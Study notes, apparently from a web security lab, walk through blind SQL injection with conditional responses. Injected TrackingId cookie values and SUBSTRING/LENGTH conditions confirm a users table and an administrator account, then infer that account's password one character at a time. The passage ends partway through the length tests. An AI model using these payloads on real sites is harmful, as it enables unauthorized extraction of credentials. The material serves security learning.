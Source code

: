 For example:
- suppose there is a table called `Users` with the columns `Username` and `Password`
- a user called `Administrator`
- You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
This returns the "Welcome back" message, indicating that:
- the injected condition is true
- so the first character of the password is greater than `m`

Next, we send the following input:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
This does not return the "Welcome back" message, indicating that:
- the injected condition is false
- so the first character of the password is not greater than `t`

Let's test if the first ch is `s`:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
"Welcome back" message => it's correct
=>
we proceed in this way for all the characters

#### Blind SQL injection with conditional responses
- Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. 
- Modify the `TrackingId` cookie, changing it to:
  `TrackingId=...' AND '1'='1`
  Verify that the "Welcome back" message appears in the response.
- Now change it to:
  `TrackingId=xyz' AND '1'='2`
  Verify that the "Welcome back" message does not appear in the response. 
  This demonstrates how you can test a single boolean condition and infer the result.

- Now change it to:
  `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
  Verify that the condition is true, confirming that there is a table called `users`.

- Now change it to:
  `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
  Verify that the condition is true, confirming that there is a user called `administrator`.

- The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
  `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
   This condition should be true, confirming that the password is greater than 1 character in length.
    
- Send a series of follow-up values to test different password lengths. Send:
  `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
  Then send:
  `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
